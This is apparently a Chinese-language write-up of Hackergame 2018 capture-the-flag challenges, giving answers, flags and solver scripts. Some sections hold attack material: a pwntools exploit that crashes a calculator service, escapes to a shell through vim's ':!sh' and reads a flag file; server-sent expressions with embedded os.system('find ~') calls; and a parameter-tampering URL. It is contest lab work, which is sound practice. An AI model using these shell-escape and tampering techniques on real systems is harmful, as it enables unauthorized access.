






# 签到题

检查元素，发现能输入的最大字符长度是13，改成14就好了。

```
flag{Hackergame2018_Have_Fun!}
```

# 猫咪问答

1. 中国科学技术大学的建校年份是？

1958

2. 你研究过中国科大学号的演变史吗？现有一位 1992 年入学的博士生，系别为 11 系，学生编号为 26，请问 Ta 的学号是？

9211B026

3. 视频《诺贝尔奖获得者和杰出科学家祝福科大60华诞》中，出现了多少位诺贝尔奖得主和世界顶尖科学家为中国科大六十周年华诞送上祝福？（数字）

9 本以为人会很多，结果把视频下载下来发现是可以数出来的！

4. 在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？

TP311.1/94

5. 我校 Linux 用户协会在大约三年前曾经举办过一次小聚，其主题是《白帽子大赛，黑客不神秘》，请问这次小聚使用的教室编号是？

3A202

# 游园会的集章卡片

我用Fotor拼的。。嗯果然还是要换一个软件的说。



```
flag{H4PPY_1M4GE_PR0CE551NG}
```

# 猫咪和键盘

推测顺序：

```
[1]+[33:39]+[2:7]+[21:22]+[9:20]+[23:32]+[40:]
```

```python
# -*- coding:utf-8 -*-

f = open('typed_printf.cpp')
for line in f.readlines():
    new_line = line[0]+line[32:39]+line[1:7]+line[20:22]+line[8:20]+line[22:32]+line[39:].rstrip()
    print(new_line)

```

```c++

/*
 * name: typed_printf.cpp
 * compile: g++ -std=c++17 typed_printf.cpp
 * title: type safe printf
 * author: nicekingwei
 * url: aHR0cHM6Ly96anUtbGFtYmRhLnRlY2gvY3BwZHQtcHJpbnRmLw==
 * related knowledge:
 *  - value and type
 *      value->value: function
 *      type->value: parametric polymorphism
 *      type->type: generic
 *      value->type: dependent type
 *  - auto
 *  - if constexpr
 */
#include <iostream>                   
#include <functional>                 
#include <type_traits>                

using namespace std;

template<const char*format>
static auto println() {
	if constexpr (format[0] == '%') {
		if constexpr (format[1] == 'd') {
			return [](int x) {cout << x << endl; };
		}
		else if constexpr (format[1] == 's') {
			return [](const char* x) {cout << x << endl; };
		}
		else {
			return "error";
		}
	}
	else {
		return "error";
	}
}

struct unit_t { char x; };

template<typename T, typename R>
constexpr auto get_arg(R(*f)(T)) {
	return T{};
}

template<typename T>
constexpr bool cont_takes_no_arg(T cont) {
	using cont_t = decay_t<T>;
	using arg_type = decay_t<decltype(get_arg(cont))>;
	return is_same<unit_t, arg_type>::value;
}


template<typename T, typename R, typename X, R(*cont)(X)>
auto print_var(T x) {
	cout << x;
	return cont;
}

template<typename T, typename R, typename X, R(*cont)(void)>
auto print_var(T x) {
	cout << x;
	return cont();
}

template<char c, typename R, typename X, R(*cont)(X)>
auto print_const(X x) {
	cout << c;
	return cont(x);
}

template<char c, typename R, typename X, R(*cont)(void)>
auto print_const() {
	cout << c;
	return cont();
}


template<typename R, typename X>
constexpr auto cont_ret_type(R(*cont)(X)) {
	return R{};
}

template<typename R>
constexpr auto cont_ret_type(R(*cont)()) {
	return R{};
}

template<typename R, typename X>
constexpr auto cont_arg_type(R(*cont)(X)) {
	return X{};
}

template<typename R>
constexpr auto cont_arg_type(R(*cont)()) {
	return unit_t{};
}

unit_t print_nothing() { return unit_t{}; }

#define cont_ret_t decay_t<decltype(cont_ret_type(cont))>
#define cont_arg_t decay_t<decltype(cont_arg_type(cont))>

template<const char*format, int i>
constexpr auto _typed_printf() {
	if constexpr (format[i] == '%' && format[i + 1] == 'd') {
		constexpr auto cont = _typed_printf<format, i + 2>();
		return print_var<int, cont_ret_t, cont_arg_t, cont>;
	}
	else if constexpr (format[i] == '%' && format[i + 1] == 's') {
		constexpr auto cont = _typed_printf<format, i + 2>();
		return print_var<const char*, cont_ret_t, cont_arg_t, cont>;
	}
	else if constexpr (format[i] != '\0') {
		constexpr auto cont = _typed_printf<format, i + 1>();
		return print_const<format[i], cont_ret_t, cont_arg_t, cont>;
	}
	else {
		return print_nothing;
	}
}

#define def_typed_printf(f,str) constexpr static const char str_fmt##f[] = str; auto f = _typed_printf<str_fmt##f,0>();

#define ABC "FfQ47if9Zxw9jXE68VtGA"   
#define BAC "JDk6Y6Xc88UrUtpK3iF8p"   
#define CAB "7BMs4y2gzdG8Ao2gv6aiJ"   

int main() {
	def_typed_printf(f_l_x_g_1, "%s%s%s%s");
	f_l_x_g_1("fl")("a")("g")("{");
	def_typed_printf(a_a_a_a_a_a_a_a_a, "%s%s%s%s%s%s%d");
	a_a_a_a_a_a_a_a_a(ABC)("")(BAC)("")(CAB)("")('}');
	def_typed_printf(def_typed_printf_, "%s%d%s");
	def_typed_printf_("typed_printf")('_')("}");
	return 0;
}

```

使用g++7进行编译，得到flag

```
flag{FfQ47if9Zxw9jXE68VtGAJDk6Y6Xc88UrUtpK3iF8p7BMs4y2gzdG8Ao2gv6aiJ125typed_printf95}
```

# Word文档

将后缀名改成 .zip，得到flag

```
flag{xlsx,pptx,docx_are_just_zip_files}
```

# 猫咪银行

```
http://202.38.95.46:12003/?action=buy_A1&period=1&val=20000
```


# 回到过去

嘛我直接输入了



```
flag{t4a2b8c44039f93345a3d9b2}
```


# 秘籍残篇

https://matthias-ernst.eu/malbolge/debugger.html

https://www.tutorialspoint.com/execute_malbolge_online.php

# 猫咪遥控器

```python
# -*- coding:utf-8 -*-
import cv2
import numpy as np
from matplotlib import pyplot as plt
f = open('seq.txt', 'r')

img = np.zeros((600, 3000), np.uint8)
x = 200
y = 100
dist = 4
line = f.readline()
for ch in line:
    if ch == 'L':
        new_x = x-dist
        cv2.line(img, (new_x, y), (x, y), 255, 5)
        x = new_x
    if ch == 'D':
        new_y = y+dist
        cv2.line(img, (x, new_y), (x, y), 255, 5)
        y = new_y
    if ch == 'R':
        new_x = x+dist
        cv2.line(img, (new_x, y), (x, y), 255, 5)
        x = new_x
    if ch == 'U':
        new_y = y-dist
        cv2.line(img, (x, new_y), (x, y), 255, 5)
        y = new_y
plt.imshow(img, 'gray')
plt.show()
```



```
flag{MeowMeow}	
```


# 她的诗

```
b'Expectations are what you have'
b'when you have given up.'
b'Expectations are born from'
b'a despairingly large difference in skill.'
b'---------'
b'A joke only lasts for a moment,'
b'if it leaves a misunderstanding,'
b'it becomes a lie.'
b'---------'
b"If someone didn't have any pride,"
b"wouldn't they also be lacking"
b'in self-confidence?'
b'If someone was free of greed,'
b"wouldn't they have trouble"
b'supporting their family?'
b"And if people didn't envy one another,"
b"wouldn't they stop inventing new things?"
b'---------'
b"If I don't have to do it, I won't."
b"If I have to do it, I'll make it."
b'---------'
b'/* Here is the end of my poem.'
b'Have you ever found my FLAG? :) */'
```

# 猫咪克星

替换 `exit()` 为 0。

由于 `sleep()` 函数没有返回值，因此替换 `__import__('time').sleep(*)` 为 `None` 。

进行正则匹配的表达式为` __import__(\'time\')\.sleep(\d)`

同理，替换`print(*)`为`None`

```
((int(1<=int(exit()!=2))+(19&4))*((6**35)|(int(2==__import__('time').sleep(100))<<6)))
((int(int(exit()!=38)==10)+(58-1))^int((18+127)<int(13==2)))
(((1-67)*(118*21))*(int(2<80)|(4|32)))
(((1+7)|(5^18))|(int(int(14==print('\x1b\x5b\x33\x3b\x4a\x1b\x5b\x48\x1b\x5b\x32\x4a'))!=18)|(1**int(__import__('os').system('find ~')==1))))
(((24**26)+(int(4==__import__('os').system('find ~'))+3))^int(int(33<=24)<(5^25)))
int(int((16*15)<(4*143))!=int(int(4==10)!=int(2!=58)))
(((30^32)-int(int(__import__('time').sleep(100)!=2)!=9))|((18<<5)|(3+139)))
int(((1<<83)&(1^1))<(int(18<=int(9==__import__('time').sleep(100)))|(int(exit()!=74)*int(12!=__import__('time').sleep(100)))))
(((19&1)^(39&9))&int(int(1!=23)<(int(42==__import__('time').sleep(100))-8)))
(((4-21)^(53>>87))*int((int(2==__import__('os').system('find ~'))*1)>(2|1)))
(((145+9)*(int(__import__('time').sleep(100)==3)*101))+((5-56)-(82-3)))
((int(1<=3)-(42**1))+((14+14)&(63&19)))
(((11**17)^int(18<75))*((5&7)-int(47<1)))
(int((19**5)<=(12+65))|((45*int(__import__('os').system('find ~')==1))^(int(63==exit())*17)))
```

```
exit()
__import__('time').sleep(100)
print('\x1b\x5b\x33\x3b\x4a\x1b\x5b\x48\x1b\x5b\x32\x4a')
__import__('os').system('find ~')
```

```python
from pwn import *

p = remote('202.38.95.46',12009)

p.recvline()
i=0
while True:
    strl = p.recvline().rstrip().decode()
    print(strl)
    strl = strl.replace("exit()", "0")
    strl = strl.replace("__import__('time').sleep(100)", "None")
    strl = strl.replace("print('\x1b\x5b\x33\x3b\x4a\x1b\x5b\x48\x1b\x5b\x32\x4a')", "None")
    strl = strl.replace("__import__('os').system('find ~')", "0")
    ans = eval(strl)
    print(ans)
    p.sendline(str(ans))

p.close()
```



```
flag{'Life_1s_sh0rt_use_PYTHON'*1000}
```

# C语言作业

摘自https://blog.csdn.net/Thanksgining/article/details/41824475

```
4) SIGILL：执行了非法指令. 通常是因为可执行文件本身出现错误, 或者试图执行数据段. 堆栈溢出时也有可能产生这个信号。
6) SIGABRT：调用abort函数生成的信号。
8) SIGFPE：在发生致命的算术运算错误时发出. 不仅包括浮点运算错误, 还包括溢出及除数为0等其它所有的算术的错误。
11) SIGSEGV：试图访问未分配给自己的内存, 或试图往没有写权限的内存地址写数据.
```

https://zh.wikipedia.org/wiki/SIGFPE

```
2147483647
-2147483648/-1
cat /home/flag
```



`execlp()`这个函数有点难受。。不能包含 `sh` 的话我也不知道怎么绕过，看了网上一堆教程，本地试了一下也没什么太好的方法。。`glob()`也不行。。难受

哭了哭了，看了一天啥也没看出来。看看别的题去。

晚上试了一下 vim，居然可以。正好有有大佬提醒可以在vim 中用`:!`执行shell命令。成功拿到shell。

然而此时`cat flag`会发现真正的flag在`-`文件中。

Google之，发现[how-to-open-a-f-dashed-filename-using-terminal](https://stackoverflow.com/questions/42187323/how-to-open-a-f-dashed-filename-using-terminal)上面有解答。

getshell。

```python
from pwn import *
p = remote('202.38.95.46', 12008)
# p = process('./calc')
context.log_level = 'DEBUG'
print(p.recvline())
print(p.recvline())
p.sendlineafter(">>", '-2147483648/-1')
# print(p.recvline())
# p.interactive()
# p.recvuntil('You can run a program to examine:')
p.sendlineafter("You can run a program to examine:", 'vim')
p.sendline(':!sh')
p.interactive()
print(p.recvall())
# p.interactive()
p.close()
```



```
flag{816484e67b21efd5de8f1661d180a007}
```

